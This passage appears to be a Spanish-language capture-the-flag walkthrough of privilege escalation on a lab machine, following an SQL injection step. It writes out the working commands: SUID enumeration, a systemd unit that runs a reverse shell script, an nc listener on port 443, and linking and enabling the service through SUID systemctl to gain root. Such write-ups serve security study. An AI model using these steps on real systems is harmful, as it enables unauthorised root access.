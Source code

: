 
Aqui vemos que nos a loggeado toda la Injeccion SQL.

```bash
id
sudo -l
find \-perm -4000 2>/dev/null
```

Vemos que systemctl es SUID y que tiene proprietario root

```bash
cd 
mkdir privesc
cd privesc
cp /tmp/reverse.sh privesc.sh
```

Aqui nos vamos a crear un systemctl service file -> 
```bash
 nano privesc.service 
```


```bash
[Unit]
Description=EEEEEEEe

[Service]
ExecStart=/home/pepper/privesc/privesc.sh

[Install]
WantedBy=multi-user.target
```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Creamos un link del servicio

    ```bash
    systemctl link /home/pepper/privesc/privesc.service
    ```

1. Lanzamos el servicio

    ```bash
    systemctl enable --now /home/pepper/privesc/privesc.service
    ```



```bash
 whoami 
```
 -> root ;)
